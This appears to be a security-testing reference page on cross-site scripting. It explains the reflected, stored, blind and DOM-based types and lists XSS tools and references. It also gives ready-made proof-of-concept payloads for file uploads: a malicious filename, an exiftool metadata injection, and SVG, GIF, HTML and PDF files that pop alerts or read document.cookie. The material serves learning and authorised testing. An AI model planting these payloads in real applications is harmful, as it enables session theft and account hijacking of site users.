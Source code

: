 ```yaml
---
description: Below are some references for the Cross-site scripting attacks.
---
```


# **Cross-site scripting (XSS)** #

### **Concept** ###

Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application. It allows an attacker to circumvent the same origin policy, which is designed to segregate different websites from each other. Cross-site scripting vulnerabilities normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data. If the victim user has privileged access within the application, then the attacker might be able to gain full control over all of the application's functionality and data.

### **Types of XSS** ####

* Reflected cross-site scripting.
* Stored cross-site scripting. \[Blind XSS comes under S-XSS)
* Document Object Model-based cross-site scripting

### **Reflected Cross-Site Scripting** ###

Reflected cross-site scripting (or XSS) arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

### **Stored Cross-Site Scripting** ###

Stored cross-site scripting (also known as second-order or persistent XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way. Stored XSS allows potential attackers to inject client-side scripts directly onto target servers. This is not just a single user issue, however, it affects everyone who has access to these servers. Once attackers find a vulnerability in the web application, they can inject their script and wait for an unsuspecting target to fall into their trap. Sites that allow their users to share content (like blogs or social networking sites) are often the most targeted. The injected script is permanently stored on the now infected servers and allows the attacker to set their targets up to receive the malicious script from the servers when they make a request.

### **Blind Cross-Site Scripting** ###

Blind XSS vulnerabilities are a variant of persistent XSS vulnerabilities. They occur when the attacker input is saved by the web server and executed as a malicious script in another part of the application or in another application. For example, an attacker injects a malicious payload into a contact/feedback page and when the administrator of the application is reviewing the feedback entries the attacker’s payload will be loaded. The attacker input can be executed in a completely different application (for example an internal application where the administrator reviews the access logs or the application exceptions).

### **Document Object Model-based Cross-Site Scripting** ###

DOM-based XSS vulnerabilities usually arise when JavaScript takes data from an attacker-controllable source, such as the URL, and passes it to a sink that supports dynamic code execution, such as `eval()` or `innerHTML`. This enables attackers to execute malicious JavaScript, which typically allows them to hijack other users' accounts.

### **XSS via file upload payloads** ###

**XSS in a filename**

```markup
"><img src=v onerror=prompt(xss);>.jpeg
```

#### **Metadata (exit tool)** ####

```markup
exiftool -Artist=’ “><img src=1 onerror=alert(document.domain)>’
brute.jpeg
```

#### **SVG content XSS (save the below content in SVG file)** ####

```markup
<svg xmlns="http://www.w3.org/2000/svg"
onload="alert(document.domain)"/>
```

#### **Gif extension XSS (save the below content in gif file)** ####

```markup
GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
```

#### **Html extension (save the below content in HTML file)** ####

```markup
<!DOCTYPE html>
<html>
<head>
<title>XSS</title>
</head>
<body>
<script type="text/javascript">alert(document.cookie)</script>
<script>prompt(1);</script>
</body>
</html>
```

#### **PDF extension (When content-type is not checked and magic bytes and file extensions are being checked).** ####

```markup
%PDF-1.4
%Ã¤Ã¼Ã¶Ã
2 0 obj
<</Length 3 0 R/Filter/FlateDecode>>
stream
x=Ë
1E÷ù»v¶é´0è~ àø
R
R<img src=x onerror=alert(document.cookie)>
```
### **Tools** ###

- [https://xsshunter.com](https://xsshunter.com)
The Best tool for Blind XSS


- [https://github.com/ssl/ezXSS](https://github.com/ssl/ezXSS)
Has 2fa, email reports, share reports feature


- [https://knoxss.me/](https://knoxss.me/)
Knoxss


- [https://www.irongeek.com/homoglyph-attack-generator.php](https://www.irongeek.com/homoglyph-attack-generator.php)

- [https://portswigger.net/burp/documentation/collaborator](https://portswigger.net/burp/documentation/collaborator)

### **Automation XSS** ###

- [https://github.com/theinfosecguy/QuickXSS](https://github.com/theinfosecguy/QuickXSS)

### **References** ###

- [Reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected)

- [Stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored)

- [Document Object Model-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based)

- [Blind Cross-site scripting](https://medium.com/@R0X4R/introduction-to-blind-xss-417dcf9c842c)

- [https://www.youtube.com/watch?v=EoaDgUgS6QA](https://www.youtube.com/watch?v=EoaDgUgS6QA)

- [https://www.youtube.com/watch?v=gkMl1suyj3M](https://www.youtube.com/watch?v=gkMl1suyj3M)

- [https://brutelogic.com.br/blog/](https://brutelogic.com.br/blog/)

- [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)

- [https://medium.com/@bhaveshthakur2015/content-security-policy-csp-bypass-techniques-e3fa475bfe5d](https://medium.com/@bhaveshthakur2015/content-security-policy-csp-bypass-techniques-e3fa475bfe5d)

- [https://t.co/7O45xvRMf4?amp=1](https://t.co/7O45xvRMf4?amp=1)

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

- [https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)

- [https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

- [https://github.com/s0md3v/AwesomeXSS](https://github.com/s0md3v/AwesomeXSS)

